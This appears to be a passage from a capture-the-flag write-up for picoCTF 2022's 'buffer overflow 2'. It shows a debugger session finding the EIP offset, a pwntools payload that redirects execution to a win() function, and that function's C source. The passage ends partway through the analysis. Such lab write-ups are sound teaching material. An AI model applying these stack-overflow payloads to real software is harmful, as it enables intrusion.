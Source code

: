 ```
$ python solve.py 
[+] Opening connection to saturn.picoctf.net on port 56437: Done
[*] Switching to interactive mode
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```





<br>
<br>
<br>

# buffer overflow 2 - picoCTF 2022

<https://play.picoctf.org/practice/challenge/259>

```python
>>> 'a'*112 + 'BBBB'
'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB'
```

```
pwndbg> run
...
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB

Program received signal SIGSEGV, Segmentation fault.
...
*EIP  0x42424242 ('BBBB')
```

```
pwndbg> disassemble win
Dump of assembler code for function win:
   0x08049296 <+0>:     endbr32
```

```python
from pwn import p32
import sys
payload = b"A"*112 + p32(0x08049296)
sys.stdout.buffer.write(payload)
```

This jumps to the win function but segfaults. Let's look at the win function:

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
```